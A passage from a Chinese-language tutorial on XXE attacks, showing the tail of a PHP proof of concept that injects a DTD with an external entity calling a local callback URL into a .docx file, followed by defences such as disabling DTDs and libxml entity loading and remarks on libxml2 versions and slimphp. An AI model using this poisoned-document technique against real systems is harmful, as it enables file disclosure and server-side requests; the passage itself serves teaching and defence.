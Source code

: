 ```php
    $doc_xml = new DOMDocument();
    $doc_xml->loadXML($xml); //加载word文档
    $zip->close();
    return $doc_xml->textContent; //读取文档内容
}

//在这里定义想要添加的DTD内容和想要在XML中引用的实体
$dtd='<!DOCTYPE ANY [<!ENTITY xxe  SYSTEM "http://127.0.0.1:8088/?findneo"><!ENTITY int "XXE">]>';
$entity_reference="&xxe; &int; IS EXCITING!";

$name="demo.docx";//生成文件的文件名
$flag="Across the Great Wall we can reach every corner in the world.";//文件内容，实体在该内容附近引用。
genWord($name,$flag);//生成一个指定内容和文件名的正常docx文件
poisonWord($name,$flag,$dtd,$entity_reference);//向正常文件注入DTD和实体引用，生成恶意文件
echo trigger($name);//加载文件，测试效果

//若程序不能正常运行，可尝试在 php.ini 末尾添加以下路径
//extension="php_com_dotnet.dll 路径"; extension="php_mbstring.dll 路径"
?>
```

此外，Github项目 [**oxml_xxe**](https://github.com/BuffaloWill/oxml_xxe)  支持更多文件类型。 

# 防御

彻底禁用DTD是最好的，退一步，禁用外部实体/外部DTD也可以。具体参考 [XML_External_Entity_(XXE)_Prevention_Cheat_Sheet](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Prevention_Cheat_Sheet) 。

- 禁用外部实体 ( http://cn2.php.net/libxml_disable_entity_loader 等)
  - 对于PHP来说，尽管不同环境下`simplexml_load_string() ` 默认行为并不一致，但为了安全应当总是`libxml_disable_entity_loader();` 。 
- 检验数据来源，过滤数据

PHP及其他语言或框架，是否默认解析外部实体，解析方式和在特定场景下的解析表现，与其使用的 libxml2 版本有关（如果是基于libxml2的话），也与XML解析器及其配置有关。就PHP而言，`libxml2 Version` 可以在phpinfo里看，本文使用的是`2.7.8` 。

这可能是一个误解的结果。

> 在slimphp2中，官方是对这块进行一定处理了（。。。一些代码。。。）不知为何在3.0版本中官方就无视这个问题了。 我猜可能有两个原因： 
>
> 1.官方注意到了这个问题，但认为3.0版本需求的php版本在5.5以上，而错以为5.5以上的php就已经不存在XXE的隐患了。但实际上XML外部实体的解析，和php版本并无关系，而是和编译时的libxml库版本有关。
>
> 2.官方尚未注意到这个问题。
>
> 感觉前者的可能性较大。  
>
> —— wooyun-2015-0156208

可以结合 [change log](http://www.xmlsoft.org/news.html) 和 [GitHub commit](https://github.com/GNOME/libxml2/commits) 了解 libxml2 各版本具体改动。

可以看到与主题较相关的有：
